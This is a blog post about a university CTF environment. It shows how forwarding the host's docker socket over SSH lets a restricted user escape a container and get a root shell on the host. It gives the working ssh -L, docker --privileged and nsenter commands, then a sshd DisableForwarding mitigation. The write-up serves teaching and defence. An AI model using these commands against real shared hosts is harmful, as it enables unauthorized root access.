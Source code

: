 ```yaml
---
title: "16 SSH Forwarding Quirks"
date: 2020-03-23T10:19:06Z
author: "Viktor Barzin"
description: "Abusing SSH forwarding features and common docker config allows for privilege escalation and secure shell escape onto the docker host."
sitemap:
  priority: 0.3
tags:
  [
    "ssh",
    "docker",
    "privilege escalation",
    "shell escape",
    "unix domain socket",
    "forwarding",
    "ctf",
    "attack-defense",
    "nsenter",
    "disable forwarding",
    "docker privilege escalation",
  ]
firstImgUrl: "https://viktorbarzin.me/images/16-ssh-forwarding-quirks-0-18-47-23-resized.png"
draft: false
---
```


# Introduction

[SSH](https://www.ssh.com/ssh) is a ubiquitous protocol for managing remote machines securely.

Most of the time one would need just shell access to a remote machine to run commands, however, SSH allows for so much more.
One of the interesting features is **SSH forwarding** - you can forward ports, unix sockets, X11 sessions and other interesting stuff.

All of this is fine until you start sharing the ssh server host with other people.
Recently, me and a few other people were organizing an attack-defense style Capture the Flag (CTF) event for my university's cyber security society ([SUCSS](https://www.sucss.org/)).
This blog post will be about a neat trick you can do with SSH forwarding to **escalate privileges** and **escape a restricted shell** environment and gain **root access on the host**.

# Overview of the environment

The environment comprised a single Ubuntu virtual machine (VM) which hosts the entire CTF.
Each team has a user to SSH into this VM and upon successful login is dropped into a docker container.
All of these containers are in the same docker network and can attack each other.

Essentially, this is the environment:

<div style="max-width: 500px; max-height:500px">

![](/images/16-ssh-forwarding-quirks-0-18-47-23.png)

</div>

<br>
This is how the user shell looks like:

```bash
#!/bin/bash

name="$USER"_group
docker run -d -it --rm --pids-limit=50 --cpus="0.5" -m="500m" --device-write-bps /dev/sda:1mb --name $name sucss-group-ctf sudo -u $USER /bin/bash 2>/dev/null

docker exec -it -u $USER $name /bin/bash
```

This shell runs a container for the team and drops them into a shell on the container.

# Abusing SSH forwarding

Now, the above shell looks secure enough and does not let the user at any point to run any commands on the host.

Secure, right?

Well, not quite.

As I mentioned earlier, SSH is quite a powerful protocols and can forward a lot of stuff including unix domain sockets.
The docker CLI, by default, uses [a unix domain socket](https://stackoverflow.com/questions/35110146/can-anyone-explain-docker-sock#answer-35110344) to communicate with the docker API.
This essentially means that all the `docker ps`, `docker run`, `docker network ls` etc. commands **all** go through that socket.

I reckon you already see the arising issue there - you could SSH into the host and forward the docker socket **from the host** locally and then escape on the host.

```bash
$ ssh -L $PWD/docker.sock:/var/run/docker.sock <host>
```

(Forwarding unix sockets requires SSH >=6.7 which you should be running)

Now if we run `docker` using the forwarded socket we will communicate with the remote docker daemon:

```bash
$ docker -H unix://docker.sock ps
```

# Popping a shell

Using docker access to get a shell on the host is now trivial.
We need to spawn a privileged container and mount the host rootfs inside.
We can do so using:

```bash
docker run --privileged --pid=host -it alpine sh
```

- --privileged : grants additional permissions to the container, it allows the container to gain access to and mount the devices of the host (/dev)
- --pid=host : allows the containers to use the processus tree of the Docker host (the VM in which the Docker daemon is running)

The easiest way to spawn a shell using the host rootfs is using the `nsenter` command:

```bash
$ nsenter -t 1 -m -u -n -i sh
```

From the help page:

```
BusyBox v1.31.1 () multi-call binary.

Usage: nsenter [OPTIONS]PROG [ARGS]]

         -t PID          Target process to get namespaces from
         -m[FILE]        Enter mount namespace
         -u[FILE]        Enter UTS namespace (hostname etc)
         -i[FILE]        Enter System V IPC namespace
         -n[FILE]        Enter network namespace
         -p[FILE]        Enter pid namespace
         -U[FILE]        Enter user namespace
         -S UID          Set uid in entered namespace
         -G GID          Set gid in entered namespace
         --preserve-credentials  Don't touch uids or gids
         -r[DIR]         Set root directory
         -w[DIR]         Set working directory
         -F              Don't fork before exec'ing PROG
```

# tl;dr

To get a shell abusing the SSH forwarding capabilities and the docker daemon do:

```bash
$ ssh -L $PWD/docker.sock:/var/run/docker.sock <host>
```

in one shell and in another

```bash
$ docker -H unix://docker.sock run --privileged --pid=host -it alpine nsenter -t 1 -m -u -n -i sh
```

Voila!

# Mitigation

This is possible because of 2 things:

- Default sshd config allows forwarding
- Adding the user to the `docker` group

The second is often done to let people run `$ docker ...` as opposed to `$ sudo docker ...`.
For this environment it's needed because each user needs to start a container and drop the user inside.
The process needs to be automatic and unattended so `sudo` must be passwordless but that's a hassle to setup per user.
Thus adding the user to the `docker` group is the easiest thing to do.

You can think of the above 2 conditions as prerequisites for this vulnerability to exist.
If you fix any of them you would mitigate this issue.

The change you need to make in `/etc/ssh/sshd_config` is adding

```xorg.conf
DisableForwarding yes
```

This disables all forwarding features and I strongly recommend having it in there as a secure default and enable it on per-user basis when needed.

Once you have this in your ssh config, trying the same trick again yields these errors:

In the SSH shell:

```bash
user@host:~$ channel 2: open failed: connect failed: open failed
channel 2: open failed: connect failed: open failed
channel 2: open failed: connect failed: open failed
```

And when you run

```bash
╰─$ docker -H unix://docker.sock run --privileged --pid=host -it alpine nsenter -t 1 -m -u -n -i sh
docker: error during connect: Post http://docker.sock/v1.40/containers/create: read unix @->/home/viktor/docker.sock: read: connection reset by peer.
See 'docker run --help'.
```

# Conclusion

This little neat trick exploits the powers of SSH forwarding as well as the privileges docker gives a user.
**Effectively if a user can spawn docker containers, they have root on that machine** which is scary when you think about it.

Shout out to [Tim Stallard](https://timstallard.me.uk/) for pointing this trick.
Here are a couple of articles on [how to forward the docker socket over ssh](https://medium.com/@dperny/forwarding-the-docker-socket-over-ssh-e6567cfab160) and [how to get a shell on the host from a container](https://medium.com/lucjuggery/a-container-to-access-the-shell-of-the-host-2c7c227c64e9).

Thanks for reading!
